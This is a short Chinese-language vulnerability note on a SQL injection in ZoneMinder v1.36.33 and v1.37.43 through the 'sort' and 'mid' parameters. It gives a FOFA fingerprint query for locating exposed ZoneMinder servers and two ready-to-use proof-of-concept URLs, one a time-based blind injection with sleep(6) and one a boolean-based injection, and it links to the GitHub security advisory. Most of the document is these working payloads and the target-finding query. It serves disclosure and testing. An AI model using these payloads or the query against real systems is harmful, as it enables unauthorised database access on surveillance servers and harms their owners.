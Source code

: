 # ZoneMinder系统sort接口存在SQL注入漏洞

Zoneminder v1.36.33 和 v1.37.43 受到 SQL 注入漏洞的影响。

## fofa

```javascript
app="ZoneMinder"
```

## poc

```java
http://host:port/zm/index.php?sort=**if(now()=sysdate()%2Csleep(6)%2C0)**&order=desc&limit=20&view=request&request=watch&mid=1
```

```java
http://host:port/zm/index.php?limit=20&mid=-1%20OR%203*2*1=6%20AND%20000322=000322&order=desc&request=watch&sort=Id&view=request
```

![image](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202501031011914.png)

## 漏洞来源

- https://github.com/ZoneMinder/zoneminder/security/advisories/GHSA-9cmr-7437-v9fj
